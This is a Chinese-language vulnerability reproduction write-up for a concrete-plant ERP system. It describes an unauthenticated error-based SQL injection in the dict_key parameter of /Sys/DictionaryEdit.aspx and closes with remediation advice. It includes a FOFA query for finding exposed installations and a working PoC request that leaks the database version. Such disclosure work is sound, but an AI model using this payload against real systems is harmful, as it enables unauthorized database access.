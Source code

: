 
# 商混ERP系统 SQL注入漏洞复现

### 0x01 产品简介

   杭州荷花软件有限公司开发的商混[ERP系统](https://so.csdn.net/so/search?q=ERP%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)。这套系统主要是处理建筑公司或者各项工程的搅拌站管理，内部含有销售模块、生产管理模块、实验室模块、人员管理等

### 0x02 漏洞概述

 商混ERP系统/Sys/DictionaryEdit.aspx处dict\_key参数存在SQL报错注入漏洞，未授权的攻击者可通过该漏洞获取数据库权限。

### 0x03 复现环境

FOFA：app="商混ERP系统"

![](assets/1701071135-dc6c72309414aeb794648ad0160824b0.png)

### 0x04 漏洞复现

PoC

```cobol
GET /Sys/DictionaryEdit.aspx?dict_key=1%27%20and%201=convert(varchar(255),@@version)-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

查询数据库版本

![](assets/1701071135-3a55123f124ea6af42dbe9934208ba12.png)

### 0x05 修复建议

使用预编译语句，所有的查询语句都使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到SQL语句中。当前几乎所有的数据库系统都提供了参数化SQL语句执行接口，使用此接口可以非常有效的防止SQL注入攻击。

对进入数据库的特殊字符（'"@&\*;等）进行转义处理，或编码转换。

确认每种数据的类型，比如数字型的数据就必须是数字，数据库中的存储字段必须对应为int型。

过滤危险字符，例如：采用正则表达式匹配union、sleep、and、select、load\_file等关键字，如果匹配到则终止运行。
